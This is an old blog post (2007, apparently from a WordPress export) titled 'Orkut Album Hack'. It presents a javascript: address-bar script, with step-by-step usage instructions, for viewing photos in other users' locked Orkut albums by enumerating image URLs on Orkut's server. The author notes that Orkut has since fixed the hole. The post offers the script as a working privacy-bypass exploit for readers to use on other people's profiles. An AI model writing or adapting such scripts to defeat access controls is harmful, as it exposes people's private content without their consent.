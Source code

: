 ```yaml
---
title: 'Orkut Album Hack : View Photos From Locked Orkut Album!'
author: rahul286
date: 2007-12-18
url: /orkut-album-hack-view-photos-from-locked-orkut-album/
views:
  - 54090
dsq_thread_id:
  - 2946463051
categories:
  - Tips
tags:
  - Bing
  - Hacking
  - Internet Explorer
  - Javascript
  - Outdated
  - Security
---
```

**<span style="color: #ec0000"><span style="font-size: medium">Important Update:</span> This hack is rectified by orkut. SO IT WILL NOT WORK ANYMORE. If I find a new hack I will definitely post it here! </span>**

**<span style="color: #ec0000">You may </span>**<a href="http://feeds.feedburner.com/rb286" onclick="_gaq.push(['_trackEvent', 'outbound-article', 'http://feeds.feedburner.com/rb286', 'subscribe to my RSS feed']);" rel="nofollow"><strong>subscribe to my RSS feed</strong></a>**<span style="color: #ec0000"> or </span>**<a href="http://www.feedburner.com/fb/a/emailverifySubmit?feedId=431924" onclick="_gaq.push(['_trackEvent', 'outbound-article', 'http://www.feedburner.com/fb/a/emailverifySubmit?feedId=431924', 'email alert']);" rel="nofollow"><strong>email alert</strong></a>**<span style="color: #ec0000"> to receive automatic updates regarding this and other hacks in future! <em>(Jan 17, 2008)</em> </span>**

* * *

[<img class="wp-image-51833" style="border-top-width: 0px;border-left-width: 0px;border-bottom-width: 0px;border-right-width: 0px" src="http://cdn.devilsworkshop.org/files/2007/12/orkut-album-hack-thumb.jpg" border="0" alt="Orkut_album_hack" width="395" height="97" />][1]</p> 

Next time you see a profile with locked album do not get annoyed! Just use following codes and all photos from album will appear on screen!

``javascript:alert("Wait for few seconds for pic`s to load......");nb= document.all[0].innerHTML.match(/[0-9]*.jpg)/g);nb=parseInt(nb);document.body.innerHTML="<center><font style='font-size:100'><b>ALBUM HACK<br></b>SCRIPT BY Ethical Hacking Community</a></font>";for(i=1;i<=100;i++){document.body.innerHTML+='<img src="http://img3.orkut.com/images/milieu/'+i+'/0/'+nb+'.jpg"><br><br><br><br>';};void(0)``

**Steps to use above code: **

  1. Go to the profile with locked album.
  2. Paste above code in address bar/navigation bar.
  3. HIT Enter key and all photos from locked album will appear on screen!

**IMPORTANT: ***(Added on Jan 3, 2008)*

Code in above box are lengthy. So crosscheck following&#8230;

  * when you paste code and hit enter you should get a box with ***OK*** button and message ***&#8220;Wait for few seconds for pics to load&#8230;&#8230;&#8221;***
  * If scripts executes successfully you will see a page with very big title ***&#8220;ALBUM HACKSCRIPT BY Ethical Hacking Community&#8221;***

Successful execution of script may not always give you results as per expectations! So&#8230;

**Few Notes: ***(Added on Jan 3, 2008)*

  * Script may not work on few profile. The problem faced by Amit was this only. He encountered one such exception profile. Try on other profiles before reporting problem here.
  * Script may not show all pics. Worst you will get to see only one pic.
  * Script can not fetch full pics but large thumbnails only you can see.

I got this hack by email from <a href="http://www.suruninfocoresystems.com/" onclick="_gaq.push(['_trackEvent', 'outbound-article', 'http://www.suruninfocoresystems.com/', 'surun']);" target="_blank">surun</a> and also read about similar hack on <a href="http://www.orkutplus.net/2007/11/album-hack-view-locked-albums.html" onclick="_gaq.push(['_trackEvent', 'outbound-article', 'http://www.orkutplus.net/2007/11/album-hack-view-locked-albums.html', 'jerry&#8217;s blog']);" target="_blank">jerry&#8217;s blog</a> few days back. I wanted to post about it but orkut rectified it quickly!

**Related: **[View Scraps from Locked Scrapbook][2]

****

* * *

**<span style="color: #ec0000"><span style="font-size: medium">Important Update:</span> This hack is rectified by orkut. SO IT WILL NOT WORK ANYMORE. If I find a new hack I will definitely post it here! </span>**</p> 

**<span style="color: #ec0000">You may </span>**<a href="http://feeds.feedburner.com/rb286" onclick="_gaq.push(['_trackEvent', 'outbound-article', 'http://feeds.feedburner.com/rb286', 'subscribe to my RSS feed']);" rel="nofollow"><strong>subscribe to my RSS feed</strong></a>**<span style="color: #ec0000"> or </span>**<a href="http://www.feedburner.com/fb/a/emailverifySubmit?feedId=431924" onclick="_gaq.push(['_trackEvent', 'outbound-article', 'http://www.feedburner.com/fb/a/emailverifySubmit?feedId=431924', 'email alert']);" rel="nofollow"><strong>email alert</strong></a>**<span style="color: #ec0000"> to receive automatic updates regarding this and other hacks in future! <em>(Jan 17, 2008)</em> </span>**

* * *

 [1]: http://cdn.devilsworkshop.org/files/2007/12/orkut-album-hack.jpg
 [2]: http://devilsworkshop.org/2008/01/02/orkut-viewing-locked-scrapbook-hack-is-back/
